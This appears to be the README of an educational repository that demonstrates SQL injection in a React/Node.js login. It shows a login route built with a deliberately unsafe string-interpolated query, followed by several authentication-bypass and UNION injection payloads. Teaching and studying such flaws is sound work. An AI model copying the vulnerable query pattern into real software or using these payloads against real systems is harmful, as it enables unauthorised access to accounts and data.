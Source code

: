 # 🚨 React-Node.js SQL Injection Demo 🚨

![Demonstration image](image.png)


This repository demonstrates a SQL injection vulnerability in a React-Node.js application.

## Setup

### Server-side Installation

1. cd into the `server` directory
2. Run `npm install`
3. Run `npm start`

### Client-side Installation

1. cd into the `client` directory
2. Run `npm install`
3. Run `npm start`

## Vulnerability

The vulnerability is in the `server/routes/users.js` file. The `login` route is vulnerable to SQL injection. The `login` route is defined as follows:

```
router.post('/login', function(req, res, next) {
  const username = req.body.username;
  const password = req.body.password;

  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
```

### 🚀 Usage

1. Visit the application in your browser and enter the following SQL query:
```' or 1=1;-- -```

2. Enter the following SQL query:
``` ' or True;-- - ```

3. When you know the username and don't know the password or it is hashed, enter the following SQL query
``` username'  and 1=1;-- - ```

4. When you know the password but don't know the username you can use the following queries
``` ' or false /* ``` and ```*/ or password = 'password```

5. UNION attack against the database.
``` linne' UNION SELECT 1, 'admin', 'admin', '1234567890', 'password', 'male';-- - ```

This will display all values as the condition is true, bypassing the password requirement.

### ⚠️ Disclaimer
This repository is for educational purposes only. Do not use this code in production.

